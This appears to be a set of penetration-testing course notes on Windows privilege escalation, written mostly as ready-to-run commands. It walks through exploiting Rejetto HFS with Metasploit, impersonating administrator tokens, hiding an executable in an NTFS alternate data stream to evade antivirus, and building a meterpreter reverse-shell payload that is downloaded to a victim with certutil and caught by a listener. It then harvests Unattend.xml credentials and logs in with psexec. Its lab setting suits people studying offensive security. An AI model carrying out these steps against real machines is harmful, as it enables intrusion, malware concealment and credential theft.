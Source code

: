 INFO: this also exploit the rejetto 2.3 version as UAC with UACME

1. `service postgresql start && msfconsole` -> `search rejetto`
2. set options then `run`
3. `getprivs` to check if you have the required privileges
4. `load incognito`
5. `list_tokens -u`
6. `impersonate_token "highest_level\Administrator"` <- copy the highest level you find(, if no high level is found you need to do a potato attack(?)) then run
7. `pgrep explorer` -> `migrate number_found`
8. `cat C:\\UsersAdministrator\\Desktop\\flag.txt`

### Alternate Data Streams

- ADS, NTFS file attribute.
- two forks: 1. Data stream(data of the file), 2.Resource stream(meta data)
- Attackers use ADS to hide malicious code or executable in legidimate files
- evade AVs and static scanning tools
- hide in resource stream

1. on windows: `notepad legitimate_file.txt:secret_file.txt`, create the file
2. if you want to open hidden file: `notepad legitimate_file.txt:secret_file.txt`
3. hide executable `notepad legitimate_file.txt:payload.exe`
4. move .exe in secret .txt file, on windows: `type payload.exe > legimitate_file:payload.exe`
5. run file(on windows): `start legitimate_file.txt:payload.exe`
6. Not working? symbolic link: `cd Windows\System32` -> `mklink wupdate.exe C:\absolute_file_path(ususally Temp fodler)\legitimate_file.txt:payload.exe`
7. may not work if you do not have adm privileges.

### Windows password hashes

- Hashes stored in SAM
- NTLM: MD4 hashing

### Searching for passwords in Windows Config Files

1. create payload: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=1234 -f exe > payload.exe`
2. simple httpserver: `python -m SimpleHTTPServer 80`
3. REAL: First gain access through vulnerablility, download the file to the victims computer
4. COURSE: victims pc: cmd -> `certutil -urlcache -f http://10.10.x.x/payload.exe payload.exe`
5. STOP python serve START msfconsole `service postgresql start && msfconsole`
6. `use multi/handler` -> `set payload windows/x64/meterpreter/reverse_tcp` -> `set LPORT 1234` -> `set LHOST 10.10.x.x`
7. execute on target system/victim pc
8. meterpreter session: `search -f Unattend.xml` OR
9. `cd C:\\` -> `cd Windows` -> ` cd Panther` -> look for Unattend.xml file -> `download unattend.xml`
10. look for usercreds = AutoLogon (encoded base64), create new file -> `vim password.txt` -> save password -> base64 -d password.txt
11. logon with adm creds: `psexec.py username@10.10.x.x`

### Dumping Hashes With Mimikatz
